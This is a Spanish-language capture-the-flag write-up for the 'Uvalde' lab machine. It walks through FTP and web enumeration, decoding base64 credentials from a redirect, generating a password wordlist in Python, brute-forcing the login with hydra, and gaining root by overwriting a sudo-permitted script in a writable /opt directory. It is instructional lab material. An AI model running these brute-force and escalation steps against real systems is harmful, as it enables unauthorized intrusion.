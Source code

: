 # Momentum VH

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.14

Comencemos con un scaneo rapido de nmap dentro de estos encontramos 

![](img/uvalde1.png)

Ya que con el escaneo de nmap nos dice que se puede acceder anonimamente al ftp eso es lo primero que realizo

![](img/uvalde2.png)

viendo el archivo output la verdad solo se que hay un usuario Matthew.
Me confirma que es un usuario Linux y me muestra un ejemplo de los comandos que corrio antereriormente

##80 http

Continuare viendo el http la cual es una pagina completamente normal.
Lanzando la herramienta gobuster encontramos nuevos directorios

``` 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.14 -x .php,.html     
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/02/23 13:02:55 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
/index.php            (Status: 200) [Size: 29604]
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.14/img/]
/login.php            (Status: 200) [Size: 1022]
/user.php             (Status: 302) [Size: 0] [--> login.php]
/mail                 (Status: 301) [Size: 305] [--> http://10.0.2.14/mail/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.14/css/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.14/js/]
/success.php          (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 307] [--> http://10.0.2.14/vendor/]
/create_account.php   (Status: 200) [Size: 1003]
/.html                (Status: 403) [Size: 274]
/.php                 (Status: 403) [Size: 274]
/server-status        (Status: 403) [Size: 274] 
```

De estos los mas interesantes son el /login y /create_account.php
Lanzando un ataque de fuerza bruta mediante hydra me dice que el login es de matthew y el password 123456 sin embargo cuando intento entrar no me lo permite.

``` 
curl --url "http://10.0.2.14/create_account.php" -X POST -d "username=test1" -i -v  
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.0.2.14:80...
* Connected to 10.0.2.14 (10.0.2.14) port 80 (#0)
> POST /create_account.php HTTP/1.1
> Host: 10.0.2.14
> User-Agent: curl/7.87.0
> Accept: */*
> Content-Length: 14
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Thu, 23 Feb 2023 18:18:58 GMT
Date: Thu, 23 Feb 2023 18:18:58 GMT
< Server: Apache/2.4.54 (Debian)
Server: Apache/2.4.54 (Debian)
< Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
< Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
< Content-Length: 1031
Content-Length: 1031
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

----> Aqui iba el codigo de la pagina <----

Account successfully * Connection #0 to host 10.0.2.14 left intact
created 
```

Si nos damos cuenta en el Location nos deja un texto en base64 que si lo decodeamos nos resulta lo siguiente

```
echo 'dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=' | base64 -d;echo  
username=test1&password=test12023@5464
```

Si hago este proceso me puedo dar cuenta que siempre es el mismo formato
del password nombre2023@XXXX 

Las X serian 4 numeros aleatorios
Para esto tenemos que crear nuestro diccionario asi que cree un pequeño programa con python para generar las claves.

```
user = 'matthew2023@'

with open('test.txt', 'w') as f:
        for num in range(1,10000):
                correct_num = str(num).zfill(4)
                f.write(user+correct_num+'\n')
```

Con este programa se crearon las contraseñas en un archivo llamado test.txt 
Ahora solo queda hacer fuerza bruta con hydra

```
hydra -l matthew -P test.txt 10.0.2.14 http-post-form '/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-23 13:56:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking http-post-form://10.0.2.14:80/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">
[80][http-post-form] host: 10.0.2.14   login: matthew   password: matthew2023@1554
```

Una vez logramos obtener usuario y contraseña podemos ingresar por el ssh

##22 ssh

Encontramos de primeras la primera flag

```
matthew@uvalde:~$ cat user.txt 
***************91996dbf42697d460
```

Ahora dentro de la maquina buscamos la manera de escalar privilegios

```
matthew@uvalde:/opt$ sudo -l
Matching Defaults entries for matthew on uvalde:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User matthew may run the following commands on uvalde:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
matthew@uvalde:/opt$ ls -ld /opt/
drwx---rwx 2 root root 4096 Feb  5 10:03 /opt/
matthew@uvalde:/opt$ mv superhack superhack.back
matthew@uvalde:/opt$ echo 'bash' > superhack
matthew@uvalde:/opt$ cd ..
matthew@uvalde:/$ sudo /bin/bash /opt/superhack
root@uvalde:/# cd /root
root@uvalde:~# ls
root.txt
root@uvalde:~# cat root.txt
***************691f33e81500f56da
```

Y asi terminamos la maquina Uvalde
